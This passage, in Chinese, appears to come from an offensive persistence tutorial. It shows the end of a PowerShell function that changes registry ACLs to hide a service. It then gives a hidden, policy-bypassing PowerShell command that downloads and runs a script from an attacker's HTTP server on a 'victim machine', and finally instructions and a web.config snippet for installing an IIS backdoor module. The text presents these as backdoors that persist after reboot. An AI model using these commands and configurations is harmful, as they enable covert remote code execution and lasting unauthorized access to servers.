 ```
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
Set-Acl $S $acl
}
```

kali上起一个http `python -m http.server 8080` 受害机远程加载powershell脚本：

```
powershell.exe -exec bypass -nop -w hidden -c "IEX((new-object net.webclient).downloadstring('http://192.168.1.147/1.ps1'));Server-Sddl-Change -Name '.NET CLR Networking 3.5.0.0'"
```

![image-20221110194805525](../资源文件/图片/202303251637649.png)

1. 成功隐藏，只要电脑重启就可以获得后门

### lls后门

web服务器上一般都 支持net 所以可以考虑利用net iis做一个后门 项目地址 https://github.com/WBGlIl/IIS_backdoor 在网站目录下新建一个bin文件夹 这个文件夹 存放dll集 把IIS_backdoor_dll.dll存放在这里面 新建 web.config 或者在原有的文件上添加 内容

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<modules>
<add name="IIS_backdoor" type="IIS_backdoor_dll.IISModule" />
</modules>
</system.webServer>
</configuration>
```
